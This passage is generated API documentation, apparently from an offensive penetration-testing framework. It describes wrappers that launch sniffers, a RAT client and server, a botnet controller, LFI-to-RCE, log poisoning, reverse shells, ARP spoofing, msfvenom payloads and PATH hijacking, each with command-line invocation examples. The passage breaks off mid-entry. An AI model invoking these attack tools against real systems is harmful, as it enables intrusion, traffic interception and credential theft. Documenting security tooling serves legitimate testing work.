`modules/legacy/lazysniff.py` should be present in the `modules` directory.\n3. Run the script with:\n    `python3 modules/legacy/lazysniff.py -i <device>`\n\nExample:\n    To run `lazysniff` with `device` assign to `\"eth0\"`, set:\n    `self.params[\"device\"] = \"eth0\"`\n    Then call:\n    `run_lazysniff()`\n\nNote:\n    - Ensure that `modules/legacy/lazysniff.py` has the appropriate permissions and dependencies to run.\n    - Ensure that the network interface specified is valid and properly configured.", "kind": "method", "line": 2965, "name": "run_lazysniff", "signature": "def run_lazysniff(self)"}, {"doc": "Run the sniffer ftp internal module located at `modules/legacy/lazyftpsniff.py` with the specified parameters.\n\nThis function executes the script with the following arguments:\n\n- `device`: The network interface to be used for sniffing, specified in `self.params`.\n\nThe function performs the following steps:\n\n1. Retrieves the `device` value from `self.params`.\n2. Sets up the environment variables `LANG` and `TERM` to ensure proper script execution.\n3. Uses `subprocess.run` to execute the `lazyftpsniff.py` script with the `-i` option to specify the network interface.\n\n:param device: The network interface to be used for sniffing.\n:type device: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `device` is assign in `self.params`.\n2. The script `modules/legacy/lazyftpsniff.py` should be present in the `modules` directory.\n3. Run the script with:\n    `python3 modules/legacy/lazyftpsniff.py -i <device>`\n\nExample:\n    To run `lazyftpsniff` with `device` assign to `\"eth0\"`, set:\n    `self.params[\"device\"] = \"eth0\"`\n    Then call:\n    `run_lazyftpsniff()`\n\nNote:\n    - Ensure that `modules/legacy/lazyftpsniff.py` has the appropriate permissions and dependencies to run.\n    - Ensure that the network interface specified is valid and properly configured.", "kind": "method", "line": 3014, "name": "run_lazyftpsniff", "signature": "def run_lazyftpsniff(self)"}, {"doc": "Run the internal module to search netbios vuln victims, located at `modules/legacy/lazynetbios.py` with the specified parameters.\n\nThis function executes the script with the following arguments:\n\n- `startip`: The starting IP address for the NetBIOS scan, specified in `self.params`.\n- `endip`: The ending IP address for the NetBIOS scan, specified in `self.params`.\n- `spoof_ip`: The IP address to be used for spoofing, specified in `self.params`.\n\nThe function performs the following steps:\n\n1. Retrieves the `startip`, `endip`, and `spoof_ip` values from `self.params`.\n2. Uses `subprocess.run` to execute the `lazynetbios.py` script with the specified parameters.\n\n:param startip: The starting IP address for the NetBIOS scan.\n:type startip: str\n\n:param endip: The ending IP address for the NetBIOS scan.\n:type endip: str\n\n:param spoof_ip: The IP address to be used for spoofing.\n:type spoof_ip: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `startip`, `endip`, and `spoof_ip` are assign in `self.params`.\n2. The script `modules/legacy/lazynetbios.py` should be present in the `modules` directory.\n3. Run the script with:\n    `python3 modules/legacy/lazynetbios.py <startip> <endip> <spoof_ip>`\n\nExample:\n    To run `lazynetbios` with `startip` assign to `\"192.168.1.1\"`, `endip` assign to `\"192.168.1.10\"`, and `spoof_ip` assign to `\"192.168.1.100\"`, assign:\n    `self.params[\"startip\"] = \"192.168.1.1\"`\n    `self.params[\"endip\"] = \"192.168.1.10\"`\n    `self.params[\"spoof_ip\"] = \"192.168.1.100\"`\n    Then call:\n    `run_lazynetbios()`\n\nNote:\n    - Ensure that `modules/legacy/lazynetbios.py` has the appropriate permissions and dependencies to run.\n    - Ensure that the IP addresses are correctly set and valid for the NetBIOS scan.", "kind": "method", "line": 3060, "name": "run_lazynetbios", "signature": "def run_lazynetbios(self)"}, {"doc": "Run the internal module located at `modules/legacy/lazyhoneypot.py` with the specified parameters.\n\nThis function executes the script with the following arguments:\n\n- `email_from`: The email address from which messages will be sent, specified in `self.params`.\n- `email_to`: The recipient email address, specified in `self.params`.\n- `email_username`: The username for email authentication, specified in `self.params`.\n- `email_password`: The password for email authentication, specified in `self.params`.\n\nThe function performs the following steps:\n\n1. Retrieves the `email_from`, `email_to`, `email_username`, and `email_password` values from `self.params`.\n2. Calls the `run_script` method to execute the `lazyhoneypot.py` script with the provided email parameters.\n\n:param email_from: The email address from which messages will be sent.\n:type email_from: str\n\n:param email_to: The recipient email address.\n:type email_to: str\n\n:param email_username: The username for email authentication.\n:type email_username: str\n\n:param email_password: The password for email authentication.\n:type email_password: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `email_from`, `email_to`, `email_username`, and `email_password` are assign in `self.params`.\n2. The script `modules/legacy/lazyhoneypot.py` should be present in the `modules` directory.\n3. Run the script with:\n    `python3 modules/legacy/lazyhoneypot.py --email_from <email_from> --email_to <email_to> --email_username <email_username> --email_password <email_password>`\n\nExample:\n    To run `lazyhoneypot` with `email_from` assign to `\"sender@example.com\"`, `email_to` assign to `\"recipient@example.com\"`, `email_username` assign to `\"user\"`, and `email_password` assign to `\"pass\"`, set:\n    `self.params[\"email_from\"] = \"sender@example.com\"`\n    `self.params[\"email_to\"] = \"recipient@example.com\"`\n    `self.params[\"email_username\"] = \"user\"`\n    `self.params[\"email_password\"] = \"pass\"`\n    Then call:\n    `run_lazyhoneypot()`\n\nNote:\n    - Ensure that `modules/legacy/lazyhoneypot.py` has the appropriate permissions and dependencies to run.\n    - Ensure that the email credentials are correctly set for successful authentication and operation.", "kind": "method", "line": 3111, "name": "run_lazyhoneypot", "signature": "def run_lazyhoneypot(self)"}, {"doc": "Run the internal module GROQ AI located at `modules/legacy/lazysearch_bot.py` with the specified parameters.\n\nThis function executes the script with the following arguments:\n\n- `prompt`: The prompt to be used by the script, specified in `self.params`.\n- `api_key`: The API key to be assign in the environment variable `GROQ_API_KEY`, specified in `self.params`.\n\nThe function performs the following steps:\n\n1. Retrieves the `prompt` and `api_key` values from `self.params`.\n2. Checks if both `prompt` and `api_key` are assign. If either is missing, it prints an error message and returns.\n3. Sets the environment variable `GROQ_API_KEY` with the provided `api_key`.\n4. Calls the `run_script` method to execute the `lazysearch_bot.py` script with the `--prompt` argument.\n\n:param prompt: The prompt to be used by the script.\n:type prompt: str\n\n:param api_key: The API key for accessing the service.\n:type api_key: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `prompt` and `api_key` are assign in `self.params`.\n2. The script `modules/legacy/lazysearch_bot.py` should be present in the `modules` directory.\n3. Set the environment variable `GROQ_API_KEY` with the API key value.\n4. Run the script with:\n    `python3 modules/legacy/lazysearch_bot.py --prompt <prompt>`\n\nExample:\n    To run `lazysearch_bot` with `prompt` assign to `\"Search query\"` and `api_key` assign to `\"your_api_key\"`, assign:\n    `self.params[\"prompt\"] = \"Search query\"`\n    `self.params[\"api_key\"] = \"your_api_key\"`\n    Then call:\n    `run_lazysearch_bot()`\n\nNote:\n    - Ensure that `modules/legacy/lazysearch_bot.py` has the appropriate permissions and dependencies to run.\n    - The environment variable `GROQ_API_KEY` must be correctly assign for the script to function.", "kind": "method", "line": 3177, "name": "run_lazysearch_bot", "signature": "def run_lazysearch_bot(self)"}, {"doc": "Run the Metadata extractor internal module located at `modules/lazyown_metaextract0r.py` with the specified parameters.\n\nThis function executes the script with the following arguments:\n\n- `path`: The file path to be processed by the script, specified in `self.params`.\n\nThe function performs the following steps:\n\n1. Retrieves the value for `path` from `self.params`.\n2. Checks if the `path` parameter is assign. If not, it prints an error message and returns.\n3. Calls the `run_script` method to execute the `lazyown_metaextract0r.py` script with the appropriate argument.\n\n:param path: The file path to be processed by the script.\n:type path: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `path` is assign in `self.params`.\n2. The script `modules/lazyown_metaextract0r.py` should be present in the `modules` directory.\n3. Run the script with:\n    `python3 modules/lazyown_metaextract0r.py --path <path>`\n\nExample:\n    To run `lazyown_metaextract0r` with `path` assign to `/home/user/file.txt`, set:\n    `self.params[\"path\"] = \"/home/user/file.txt\"`\n    Then call:\n    `run_lazymetaextract0r()`\n\nNote:\n    - Ensure that `modules/lazyown_metaextract0r.py` has the appropriate permissions and dependencies to run.", "kind": "method", "line": 3228, "name": "run_lazymetaextract0r", "signature": "def run_lazymetaextract0r(self)"}, {"doc": "Run the internal module located at `modules/lazyownclient.py` with the specified parameters.\n\nThis function executes the script with the following arguments:\n\n- `lhost`: The IP address of the local host, specified in `self.params`.\n- `lport`: The port number of the local host, specified in `self.params`.\n- `rat_key`: The RAT key, specified in `self.params`.\n\nThe function performs the following steps:\n\n1. Retrieves the values for `lhost`, `lport`, and `rat_key` from `self.params`.\n2. Checks if all required parameters (`lhost`, `lport`, and `rat_key`) are set. If any are missing, it prints an error message and returns.\n3. Calls the `run_script` method to execute the `lazyownclient.py` script with the appropriate arguments.\n\n:param lhost: The IP address of the local host.\n:type lhost: str\n:param lport: The port number of the local host.\n:type lport: int\n:param rat_key: The RAT key.\n:type rat_key: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `lhost`, `lport`, and `rat_key` are assign in `self.params`.\n2. The script `modules/lazyownclient.py` should be present in the `modules` directory.\n3. Run the script with:\n    `python3 modules/lazyownclient.py --host <lhost> --port <lport> --key <rat_key>`\n\nExample:\n    To run `lazyownclient` with `lhost` assign to `192.168.1.10`, `lport` assign to `8080`, and `rat_key` assign to `my_secret_key`, set:\n    `self.params[\"lhost\"] = \"192.168.1.10\"`\n    `self.params[\"lport\"] = 8080`\n    `self.params[\"rat_key\"] = \"my_secret_key\"`\n    Then call:\n    `run_lazyownratcli()`\n\nNote:\n    - Ensure that `modules/lazyownclient.py` has the appropriate permissions and dependencies to run.", "kind": "method", "line": 3269, "name": "run_lazyownratcli", "signature": "def run_lazyownratcli(self)"}, {"doc": "Run the internal module located at `modules/lazyownserver.py` with the specified parameters.\n\nThis function executes the script with the following arguments:\n\n- `rhost`: The IP address of the remote host, specified in `self.params`.\n- `rport`: The port number of the remote host, specified in `self.params`.\n- `rat_key`: The RAT key, specified in `self.params`.\n\nThe function performs the following steps:\n\n1. Retrieves the values for `rhost`, `rport`, and `rat_key` from `self.params`.\n2. Checks if all required parameters (`rhost`, `rport`, and `rat_key`) are set. If any are missing, it prints an error message and returns.\n3. Calls the `run_script` method to execute the `lazyownserver.py` script with the appropriate arguments.\n\n:param rhost: The IP address of the remote host.\n:type rhost: str\n:param rport: The port number of the remote host.\n:type rport: int\n:param rat_key: The RAT key.\n:type rat_key: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `rhost`, `rport`, and `rat_key` are assign in `self.params`.\n2. The script `modules/lazyownserver.py` should be present in the `modules` directory.\n3. Run the script with:\n    `python3 modules/lazyownserver.py --host <rhost> --port <rport> --key <rat_key>`\n\nExample:\n    To run `lazyownserver` with `rhost` set to `192.168.1.10`, `rport` assign to `8080`, and `rat_key` assign to `my_secret_key`, set:\n    `self.params[\"rhost\"] = \"192.168.1.10\"`\n    `self.params[\"rport\"] = 8080`\n    `self.params[\"rat_key\"] = \"my_secret_key\"`\n    Then call:\n    `run_lazyownrat()`\n\nNote:\n    - Ensure that `modules/lazyownserver.py` has the appropriate permissions and dependencies to run.", "kind": "method", "line": 3329, "name": "run_lazyownrat", "signature": "def run_lazyownrat(self)"}, {"doc": "Run the internal module located at `modules/legacy/lazybotnet.py` with the specified parameters.\n\nThis function executes the script with the following arguments:\n\n- `rhost`: The IP address of the remote host, hardcoded to \"0.0.0.0\".\n- `rport`: The port number of the remote host, specified in `self.params`.\n- `rat_key`: The RAT key, specified in `self.params`.\n\nThe function performs the following steps:\n\n1. Retrieves the values for `rport` and `rat_key` from `self.params`. The `rhost` is hardcoded to \"0.0.0.0\".\n2. Checks if all required parameters (`rport` and `rat_key`) are set. If any are missing, it prints an error message and returns.\n3. Calls the `run_script` method to execute the `lazybotnet.py` script with the appropriate arguments.\n\n:param rport: The port number of the remote host.\n:type rport: int\n:param rat_key: The RAT key.\n:type rat_key: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `rport` and `rat_key` are assign in `self.params`.\n2. The script `modules/legacy/lazybotnet.py` should be present in the `modules` directory.\n3. Run the script with:\n    `python3 modules/legacy/lazybotnet.py --host <rhost> --port <rport> --key <rat_key>`\n\nExample:\n    To run `lazybotnet` with `rport` assign to `1234` and `rat_key` assign to `my_key`, assign:\n    `self.params[\"rport\"] = 1234`\n    `self.params[\"rat_key\"] = \"my_key\"`\n    Then call:\n    `run_lazybotnet()`\n\nNote:\n    - Ensure that `modules/legacy/lazybotnet.py` has the appropriate permissions and dependencies to run.", "kind": "method", "line": 3390, "name": "run_lazybotnet", "signature": "def run_lazybotnet(self)"}, {"doc": "Run the internal module located at `modules/legacy/lazylfi2rce.py` with the specified parameters.\n\nThis function executes the script with the following arguments:\n\n- `rhost`: The IP address of the remote host, specified in `self.params`.\n- `rport`: The port number of the remote host, specified in `self.params`.\n- `lhost`: The IP address of the local host, specified in `self.params`.\n- `lport`: The port number of the local host, specified in `self.params`.\n- `field`: The field name for the LFI (Local File Inclusion) attack, specified in `self.params`.\n- `wordlist`: The path to the wordlist file used for the attack, specified in `self.params`.\n\nThe function performs the following steps:\n\n1. Retrieves the values for `rhost`, `rport`, `lhost`, `lport`, `field`, and `wordlist` from `self.params`.\n2. Checks if all required parameters are set. If any are missing, it prints an error message and returns.\n3. Calls the `run_script` method to execute the `lazylfi2rce.py` script with the appropriate arguments.\n\n:param rhost: The IP address of the remote host.\n:type rhost: str\n:param rport: The port number of the remote host.\n:type rport: int\n:param lhost: The IP address of the local host.\n:type lhost: str\n:param lport: The port number of the local host.\n:type lport: int\n:param field: The field name for the LFI attack.\n:type field: str\n:param wordlist: The path to the wordlist file.\n:type wordlist: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `rhost`, `rport`, `lhost`, `lport`, `field`, and `wordlist` are assign in `self.params`.\n2. The script `modules/legacy/lazylfi2rce.py` should be present in the `modules` directory.\n3. Run the script with:\n    `python3 modules/legacy/lazylfi2rce.py --rhost <rhost> --rport <rport> --lhost <lhost> --lport <lport> --field <field> --wordlist <wordlist>`\n\nExample:\n    To run the lazylfi2rce with `rhost` assign to `192.168.1.1`, `rport` assign to `80`, `lhost` assign to `192.168.1.2`, `lport` assign to `8080`, `field` assign to `file`, and `wordlist` assign to `path/to/wordlist.txt`, set:\n    `self.params[\"rhost\"] = \"192.168.1.1\"`\n    `self.params[\"rport\"] = 80`\n    `self.params[\"lhost\"] = \"192.168.1.2\"`\n    `self.params[\"lport\"] = 8080`\n    `self.params[\"field\"] = \"file\"`\n    `self.params[\"wordlist\"] = \"path/to/wordlist.txt\"`\n    Then call:\n    `run_lazylfi2rce()`\n\nNote:\n    - Ensure that `modules/legacy/lazylfi2rce.py` has the appropriate permissions and dependencies to run.", "kind": "method", "line": 3446, "name": "run_lazylfi2rce", "signature": "def run_lazylfi2rce(self)"}, {"doc": "Run the internal module located at `modules/legacy/lazylogpoisoning.py` with the specified parameters.\n\nThis function executes the script with the following arguments:\n\n- `rhost`: The IP address of the remote host, specified in `self.params`.\n- `lhost`: The IP address of the local host, specified in `self.params`.\n\nThe function performs the following steps:\n\n1. Retrieves the values for `rhost` and `lhost` from `self.params`.\n2. Checks if the required parameters `rhost` and `lhost` are assign. If not, it prints an error message and returns.\n3. Calls the `run_script` method to execute the `lazylogpoisoning.py` script with the appropriate arguments.\n\n:param rhost: The IP address of the remote host. Must be assign in `self.params`.\n:type rhost: str\n:param lhost: The IP address of the local host. Must be assign in `self.params`.\n:type lhost: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `rhost` and `lhost` are assign in `self.params`.\n2. The script `modules/legacy/lazylogpoisoning.py` should be present in the `modules` directory.\n3. Run the script with:\n    `python3 modules/legacy/lazylogpoisoning.py --rhost <rhost> --lhost <lhost>`\n\nExample:\n    To run the lazylogpoisoning with `rhost` assign to `192.168.1.1` and `lhost` assign to `192.168.1.2`, set:\n    `self.params[\"rhost\"] = \"192.168.1.1\"`\n    `self.params[\"lhost\"] = \"192.168.1.2\"`\n    Then call:\n    `run_lazylogpoisoning()`\n\nNote:\n    - Ensure that `modules/legacy/lazylogpoisoning.py` has the appropriate permissions and dependencies to run.", "kind": "method", "line": 3527, "name": "run_lazylogpoisoning", "signature": "def run_lazylogpoisoning(self)"}, {"doc": "Run the internal module located at `modules/legacy/lazybotcli.py` with the specified parameters.\n\nThis function executes the script with the following arguments:\n\n- `rhost`: The IP address of the remote host (default is `\"0.0.0.0\"`).\n- `rport`: The port number to be used, specified in `self.params`.\n- `rat_key`: The key for the Remote Access Tool (RAT), specified in `self.params`.\n\nThe function performs the following steps:\n\n1. Retrieves the values for `rport` and `rat_key` from `self.params`.\n2. Checks if the required parameters `rport` and `rat_key` are assign. If not, it prints an error message and returns.\n3. Calls the `run_script` method to execute the `lazybotcli.py` script with the appropriate arguments.\n\n:param rport: The port number for the connection. Must be assign in `self.params`.\n:type rport: int\n:param rat_key: The key for the RAT. Must be assign in `self.params`.\n:type rat_key: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `rport` and `rat_key` are assign in `self.params`.\n2. The script `modules/legacy/lazybotcli.py` should be present in the `modules` directory.\n3. Run the script with:\n    `python3 modules/legacy/lazybotcli.py --host 0.0.0.0 --port <rport> --key <rat_key>`\n\nExample:\n    To run the lazybotcli with port `12345` and key `mysecretkey`, set:\n    `self.params[\"rport\"] = 12345`\n    `self.params[\"rat_key\"] = \"mysecretkey\"`\n    Then call:\n    `run_lazybotcli()`\n\nNote:\n    - Ensure that `modules/legacy/lazybotcli.py` has the appropriate permissions and dependencies to run.", "kind": "method", "line": 3574, "name": "run_lazybotcli", "signature": "def run_lazybotcli(self)"}, {"doc": "Run the internal module located at `modules/lazybrutesshuserenum.py` with the specified parameters. ONLY valid for 7.x Version !!!\n\nThe script will be executed with the following arguments:\n\n- `wordlist`: The path to the wordlist file containing potential usernames for SSH enumeration.\n- `rhost`: The target IP address or hostname for SSH enumeration.\n\nThe function performs the following steps:\n\n1. Retrieves the values for `wordlist` and `rhost` from `self.params`.\n2. Prints a warning message about the potential inaccuracy of the results.\n3. Constructs the command to run the `lazybrutesshuserenum.sh` script with the specified arguments.\n4. Executes the command using the `os.system` method.\n\n:param wordlist: The path to the wordlist file for username enumeration. Must be assign in `self.params`.\n:type wordlist: str\n:param rhost: The target IP address or hostname for SSH enumeration. Must be assign in `self.params`.\n:type rhost: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `wordlist` and `rhost` are assign in `self.params`.\n2. Run the script `modules/lazybrutesshuserenum.sh` with the appropriate arguments.\n\nDependencies:\n- `modules/lazybrutesshuserenum.sh` must be present in the `modules` directory and must be executable.\n\nExample:\n    To run the SSH user enumeration with a wordlist located at `/path/to/wordlist.txt` and target IP `192.168.1.1`, set:\n    `self.params[\"usrwordlist\"] = \"/path/to/wordlist.txt\"`\n    `self.params[\"rhost\"] = \"192.168.1.1\"`\n    Then call:\n    `run_lazyssh77enum()`\n\nNote:\n    - The accuracy of the results may vary depending on the version of the script and the wordlist used.", "kind": "method", "line": 3630, "name": "run_lazyssh77enum", "signature": "def run_lazyssh77enum(self)"}, {"doc": "Run the internal module located at `modules/lazyown_burpfuzzer.py` with the specified parameters.\n\nThe script will be executed with the following arguments:\n\n- `--url`: The target URL for the fuzzer.\n- `--method`: The HTTP method to use (e.g., GET, POST).\n- `--proxy_port`: The port for the proxy server.\n- `--headers`: Optional HTTP headers to include in the request.\n- `--data`: Optional data to include in the request body.\n- `--params`: Optional URL parameters to include in the request.\n- `--json_data`: Optional JSON data to include in the request body.\n- `-w`: Optional wordlist for fuzzing.\n- `-hc`: Optional hide code for fuzzing.\n\nThe function performs the following steps:\n\n1. Retrieves the values for `url`, `method`, `headers`, `params`, `data`, `json_data`, `proxy_port`, `wordlist`, and `hide_code` from `self.params`.\n2. Constructs the command to run the `lazyown_burpfuzzer.py` script with the specified arguments.\n3. Adds optional parameters based on whether the corresponding files (`headers_file`, `data_file`, `params_file`, `json_data_file`) are provided.\n4. Executes the command using the `run_command` method.\n\n:param url: The target URL for the fuzzer. Must be assign in `self.params`.\n:type url: str\n:param method: The HTTP method to use. Must be assign in `self.params`.\n:type method: str\n:param headers: Optional HTTP headers. Must be assign in `self.params` or provided via `headers_file`.\n:type headers: str\n:param params: Optional URL parameters. Must be assign in `self.params` or provided via `params_file`.\n:type params: str\n:param data: Optional data for the request body. Must be assign in `self.params` or provided via `data_file`.\n:type data: str\n:param json_data: Optional JSON data for the request body. Must be assign in `self.params` or provided via `json_data_file`.\n:type json_data: str\n:param proxy_port: The port for the proxy server. Must be assign in `self.params`.\n:type proxy_port: int\n:param wordlist: Optional wordlist for fuzzing. Must be assign in `self.params`.\n:type wordlist: str\n:param hide_code: Optional code to hide. Must be assign in `self.params`.\n:type hide_code: int\n:param headers_file: Optional file containing headers.\n:type headers_file: str, optional\n:param data_file: Optional file containing data.\n:type data_file: str, optional\n:param params_file: Optional file containing parameters.\n:type params_file: str, optional\n:param json_data_file: Optional file containing JSON data.\n:type json_data_file: str, optional\n\n:returns: None\n\nManual execution:\n1. Ensure that `url`, `method`, and `proxy_port` are assign in `self.params`.\n2. Provide additional parameters as needed.\n3. Run the script `modules/lazyown_burpfuzzer.py` with the appropriate arguments.\n\nDependencies:\n- `modules/lazyown_burpfuzzer.py` must be present in the `modules` directory and must be executable.\n\nExample:\n    To run the fuzzer with URL `http://example.com`, HTTP method `POST`, and proxy port `8080`, set:\n    `self.params[\"url\"] = \"http://example.com\"`\n    `self.params[\"method\"] = \"POST\"`\n    `self.params[\"proxy_port\"] = 8080`\n    Then call:\n    `run_lazyburpfuzzer()`\n\nNote:\n    - Ensure that all required parameters are assign before calling this function.\n    - Parameters can also be provided via corresponding files.", "kind": "method", "line": 3680, "name": "run_lazyburpfuzzer", "signature": "def run_lazyburpfuzzer(self)"}, {"doc": "Run the internal module located at `modules/lazyreverse_shell.sh` with the specified parameters.\n\nThe script will be executed with the following arguments:\n- `--ip`: The IP address to use for the reverse shell.\n- `--puerto`: The port to use for the reverse shell.\n\nThe function performs the following steps:\n\n1. Retrieves the values for `rhost` (IP address) and `reverse_shell_port` (port) from `self.params`.\n2. Validates that `rhost` and `reverse_shell_port` parameters are assign.\n3. Constructs the command to run the `lazyreverse_shell.sh` script with the specified arguments.\n4. Executes the command.\n\n:param ip: The IP address to use for the reverse shell. Must be assign in `self.params`.\n:type ip: str\n:param port: The port to use for the reverse shell. Must be assign in `self.params`.\n:type port: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `rhost` and `reverse_shell_port` are assign in `self.params`.\n2. Run the script `modules/lazyreverse_shell.sh` with the appropriate arguments.\n\nDependencies:\n- `modules/lazyreverse_shell.sh` must be present in the `modules` directory and must be executable.\n\nExample:\n    To assign up a reverse shell with IP `192.168.1.100` and port `4444`, assign:\n    `self.params[\"rhost\"] = \"192.168.1.100\"`\n    `self.params[\"reverse_shell_port\"] = \"4444\"`\n    Then call:\n    `run_lazyreverse_shell()`\n\nNote:\n    - Ensure that `modules/lazyreverse_shell.sh` has the necessary permissions to execute.\n    - Parameters must be assign before calling this function.", "kind": "method", "line": 3806, "name": "run_lazyreverse_shell", "signature": "def run_lazyreverse_shell(self)"}, {"doc": "Run the internal module located at `modules/legacy/lazyarpspoofing.py` with the specified parameters.\n\nThe script will be executed with the following arguments:\n- `--device`: The network interface to use for ARP spoofing.\n- `lhost`: The local host IP address to spoof.\n- `rhost`: The remote host IP address to spoof.\n\nThe function performs the following steps:\n\n1. Retrieves the values for `lhost`, `rhost`, and `device` from `self.params`.\n2. Validates that `lhost`, `rhost`, and `device` parameters are assign.\n3. Constructs the command to run the `lazyarpspoofing.py` script with the specified arguments.\n4. Executes the command.\n\n:param lhost: The local host IP address to spoof. Must be assign in `self.params`.\n:type lhost: str\n:param rhost: The remote host IP address to spoof. Must be assign in `self.params`.\n:type rhost: str\n:param device: The network interface to use for ARP spoofing. Must be assign in `self.params`.\n:type device: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `lhost`, `rhost`, and `device` are assign in `self.params`.\n2. Run the script `modules/legacy/lazyarpspoofing.py` with the appropriate arguments.\n\nDependencies:\n- `modules/legacy/lazyarpspoofing.py` must be present in the `modules` directory and must be executable.\n\nExample:\n    To execute ARP spoofing with local host `192.168.1.2`, remote host `192.168.1.1`, and device `eth0`, set:\n    `self.params[\"lhost\"] = \"192.168.1.2\"`\n    `self.params[\"rhost\"] = \"192.168.1.1\"`\n    `self.params[\"device\"] = \"eth0\"`\n    Then call:\n    `run_lazyarpspoofing()`\n\nNote:\n    - Ensure that `modules/legacy/lazyarpspoofing.py` has the necessary permissions to execute.\n    - Parameters must be assign before calling this function.", "kind": "method", "line": 3856, "name": "run_lazyarpspoofing", "signature": "def run_lazyarpspoofing(self)"}, {"doc": "Run the internal module located at `modules/lazyatack.sh` with the specified parameters.\n\nThe script will be executed with the following arguments:\n- `--modo`: The mode of the attack.\n- `--ip`: The target IP address.\n- `--atacante`: The attacker IP address.\n\nThe function performs the following steps:\n\n1. Retrieves the current working directory.\n2. Validates that `mode`, `rhost`, and `lhost` parameters are assign.\n3. Constructs the command to run the `lazyatack.sh` script with the specified arguments.\n4. Executes the command.\n\n:param mode: The mode in which the attack should be run. Must be assign in `self.params`.\n:type mode: str\n:param target_ip: The IP address of the target. Must be assign in `self.params`.\n:type target_ip: str\n:param attacker_ip: The IP address of the attacker. Must be assign in `self.params`.\n:type attacker_ip: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `mode`, `rhost`, and `lhost` are assign in `self.params`.\n2. Run the script `modules/lazyatack.sh` with the appropriate arguments.\n\nDependencies:\n- `modules/lazyatack.sh` must be present in the `modules` directory and must be executable.\n\nExample:\n    To execute the attack with mode `scan`, target IP `192.168.1.100`, and attacker IP `192.168.1.1`, assign:\n    `self.params[\"mode\"] = \"scan\"`\n    `self.params[\"rhost\"] = \"192.168.1.100\"`\n    `self.params[\"lhost\"] = \"192.168.1.1\"`\n    Then call:\n    `run_lazyattack()`\n\nNote:\n    - Ensure that `modules/lazyatack.sh` has the necessary permissions to execute.\n    - Parameters must be assign before calling this function.", "kind": "method", "line": 3910, "name": "run_lazyattack", "signature": "def run_lazyattack(self)"}, {"doc": "Executes the `msfvenom` tool to generate a variety of payloads based on user input.\n\nThis function prompts the user to select a payload type from a predefined list and runs the corresponding\n`msfvenom` command to create the desired payload. It handles tasks such as generating different types of\npayloads for Linux, Windows, macOS, and Android systems, including optional encoding with Shikata Ga Nai for C payloads.\n\nThe generated payloads are moved to a `sessions` directory, where appropriate permissions are assign. Additionally,\nthe payloads can be compressed using UPX for space efficiency. If the selected payload is an Android APK,\nthe function will also sign the APK and perform necessary post-processing steps.\n\n:param line: Command line arguments for the script.\n:return: None", "kind": "method", "line": 3965, "name": "run_lazymsfvenom", "signature": "def run_lazymsfvenom(self)"}, {"doc": "Creates a path hijacking attack by performing the following steps:\n\n1. Appends the value of `binary_name` to a temporary script located at `modules/tmp.sh`.\n2. Copies this temporary script to `/tmp` with the name specified by `binary_name`.\n3. Sets executable permissions on the copied script.\n4. Prepends `/tmp` to the system's PATH environment variable to ensure the script is executed in preference to other binaries.\n\nThe function then prints out each command being executed and a message indicating the binary name used for the path hijacking.\n\n:param binary_name: The name of the binary to be used in the path hijacking attack. It should be assign in `self.params` before calling this method.\n:type binary_name: str\n\n:returns: None\n\nManual execution:\n1. Ensure that `binary_name` is assign in `self.params`.\n2. Append the binary name to `modules/tmp.sh`.\n3. Copy `modules/tmp.sh` to `/tmp/{binary_name}`.\n4. assign executable permissions on the copied file.\n5. Update the PATH environment variable to prioritize `/tmp`.\n\nDependencies:\n- The `self.params` dictionary must contain a valid `binary_name`.\n- Ensure that `modules/tmp.sh` exists and contains appropriate content for the attack.\n\nExample:\n    To execute the path hijacking attack with `binary_name` as `malicious`, ensure `self.params[\"binary_name\"]` is assign to `\"malicious\"`, and then call:\n    `run_lazypathhijacking()`\n\nNote:\n    - The `binary_name` parameter must be a string representing the name of the binary to hijack.\n    - The method modifies the PATH environment variable, which may affect the execution of other binaries.", "kind": "method", "line": 4142, "name": "run_lazyaslrcheck", "signature": "def run_lazyaslrcheck(self)"}, {"doc": "Creates a path hijacking attack by performing the following steps:\n\n1. Appends the value of `binary_name` to a temporary script located at `modules/tmp.sh`.\n2. Copies this temporary script to `/tmp` with the name specified by `binary_name`.\n3. Sets executable permissions on the copied script.\n4. Prepends `/tmp` to the system's PATH environment variable to ensure the script is executed in preference to other binaries.\n\nThe function then prints out each command being executed and a message indicating the binary name used for the path hijacking.\n\n:param binary_name: The name of the binary to be used in the path hijacking attack.\n:returns: None", "kind": "method", "line": 4189, "name": "run_lazypathhijacking", "signature": "def run_lazypathhijacking(self)"}, {"doc": "Run a script with the given arguments\n\nThis method constructs and executes a command to run a Python script with the specified arguments. It uses the `run_command` method to execute the script and handle real-time output.\n\n:param script_name: The name of the script to be executed.\n:type script_name: str\n:param args: The arguments to be passed to the script.\n:type args: tuple of str\n\n:returns: None\n\nManual execution:\n1. Build the command list with \"python3\", the script name, and the arguments.\n2. Call `run_command` with the constructed command list.\n\nDependencies:\n- `run_command` method for executing the constructed command and streaming output.\n\nExample:\n    To execute a script named `example.py` with arguments `arg1` and `arg2`, call:\n    `run_script(\"example.py\", \"arg1\", \"arg2\")`\n\nNote:\n    - The `script_name` parameter should be a string representing the name of the script.\n    - The `args` parameter is a variable-length argument list containing the arguments to be passed to the script.\n    - Ensure that the script and arguments are properly specified.", "kind": "method", "line": 4222, "name": "run_script", "signature": "def run_script(self, script_name)"}, {"doc": "Run a command and print output in real-time\n\nThis method executes a given command using `subprocess.Popen` and streams both the standard output and standard error to the console in real-time. The output from both streams is appended to the `self.output` attribute. If interrupted, the process is terminated gracefully.\n\n:param command: The command to be executed.\n:type command: str\n\n:returns: None\n\nManual execution:\n1. Execute the command specified by the `command` parameter.\n2. Stream and print the command's standard output and error to the console in real-time.\n3. Append all output to the `self.output` attribute.\n4. Handle `KeyboardInterrupt` by terminating the process and printing an error message.\n\nDependencies:\n- `subprocess` module for running the command and capturing output.\n- `print_msg` function for printing output to the console.\n- `print_error` function for printing error messages to the 